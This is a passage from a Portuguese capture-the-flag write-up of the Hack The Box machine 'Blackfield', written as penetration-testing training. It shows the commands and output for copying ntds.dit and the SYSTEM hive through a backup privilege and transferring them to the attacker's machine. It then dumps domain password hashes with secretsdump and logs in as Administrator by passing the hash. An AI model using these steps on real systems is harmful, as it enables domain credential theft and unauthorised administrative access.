-a----        1/20/2024   8:07 PM            191 diskshadow.txt

*Evil-WinRM* PS C:\Temp> robocopy /b E:\Windows\ntds .

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Saturday, January 20, 2024 8:32:25 PM
   Source : E:\Windows\ntds\
     Dest : C:\Temp\

    Files : *.*

  Options : *.* /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

                           9    E:\Windows\ntds\
          *EXTRA File                191        diskshadow.txt
            New File                8192        edb.chk
  0%
100%
            New File              10.0 m        edb.log
  0.0%
  0.6%
  1.2%
  1.8%
  2.5%
  
{...} Muitas Linhas

*Evil-WinRM* PS C:\Temp> ls


    Directory: C:\Temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/20/2024   8:07 PM            191 diskshadow.txt
-a----        1/20/2024   8:07 PM           8192 edb.chk
-a----        1/20/2024   8:07 PM       10485760 edb.log
-a----        2/23/2020   9:41 AM       10485760 edb00004.log
-a----        2/23/2020   9:41 AM       10485760 edb00005.log
-a----        2/23/2020   3:13 AM       10485760 edbres00001.jrs
-a----        2/23/2020   3:13 AM       10485760 edbres00002.jrs
-a----        1/20/2024   8:07 PM       18874368 ntds.dit
-a----        1/20/2024   8:07 PM          16384 ntds.jfm
-a----        1/20/2024   7:40 PM         434176 temp.edb


*Evil-WinRM* PS C:\Temp>
```

​	Com o arquivo copiado, podemos pegar também o arquivo system da máquina.

```powershell
*Evil-WinRM* PS C:\Temp> reg save hklm\system c:\Temp\system
The operation completed successfully.
```

​	Logo em seguida, podemos transferir ambos arquivos para nossa máquina.

```powershell
*Evil-WinRM* PS C:\Temp> download C:\Temp\system /home/kali/Desktop/HTB/Blackfield/files/system
Info: Downloading C:\Temp\system to /home/kali/Desktop/HTB/Blackfield/files/system

                                                             
Info: Download successful!

*Evil-WinRM* PS C:\Temp> download C:\Temp\ntds.dit /home/kali/Desktop/HTB/Blackfield/files/ntds.dit
Info: Downloading C:\Temp\ntds.dit to /home/kali/Desktop/HTB/Blackfield/files/ntds.dit

                                                             
Info: Download successful!

*Evil-WinRM* PS C:\Temp>
```

​	Com os arquivos em nossa máquina local, podemos obter o hash do user Administrator utilizando o **impacket-secretsdump**.

```bash
┌──(kali㉿kali)-[~/…/HTB/Blackfield/files]
└─$ impacket-secretsdump -system system -ntds ntds.dit LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:4d897874d27cda1e40792f828048096d:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
{...}
```

​	Com o hash, podemos logar como administrador via evil-winrm e pegar a flag de root.

```powershell
┌──(kali㉿kali)-[~/…/HTB/Blackfield]
└─$ evil-winrm -i blackfield.local -u Administrator -H 184fb5e5178480be64824d4cd53b99ee

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
4375a629c7c67c8e29db269060c955cb
*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```

